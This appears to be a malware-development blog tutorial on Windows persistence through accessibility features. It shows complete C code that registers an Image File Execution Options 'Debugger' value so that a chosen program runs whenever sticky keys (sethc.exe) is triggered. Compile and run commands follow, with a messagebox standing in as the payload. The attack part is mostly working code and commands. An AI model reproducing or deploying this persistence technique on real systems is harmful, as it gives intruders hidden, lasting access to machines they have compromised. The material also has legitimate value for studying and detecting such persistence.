









# 05 persistence - accessibility features

Accessibility features provide additional options (on-screen keyboards, magnifier, screen reading, etc.) to help persons with disabilities use Windows operating systems more easily. However, this functionality can be exploited to achieve persistence on a server with RDP enabled and Administrator level credentials obtained.     

This trick is a special case of another trick [https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html](https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html)     

The only difference is our victim process `sethc.exe`. But what is `sethc.exe`? It appears it is responsible for sticky keys. Pressing the Shift key 5 times will enable the sticky keys:    

    

Instead of the legitimate `sethc.exe`, "the rogue sethc.exe" , as usually for simplicity it is a "Hello, Prishtina!" messagebox, will be executed. The source code is pretty similar (`pers.c`):    

```cpp
/*
 * Malware Persistence 101
 * pers.c
 * windows persistence via Accessibility Features
 * author: @cocomelonc
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // image file
  const char* img = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\sethc.exe";

  // evil app
  const char* exe = "C:\\Windows\\System32\\hack.exe";

  // Debugger
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /d "hack.exe"
    RegSetValueEx(hkey, (LPCSTR)"Debugger", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Let's go to see everything in action. Check registry keys before:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" /s
```

    

Then, compile our persistence script:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

   

Compile and move `hack.exe`:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

   

    

Run and check registry keys again. You need to have administrative privileges to replace the genuine Windows binary of the tool
:   

```powershell
.\pers.exe
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /s
```

     

Finally, pressing `Shift` key 5 times:    

    

Note to the properties of the `hack.exe`:    

    

    

As we can see, everything is worked as expected! Perfect! =^..^=   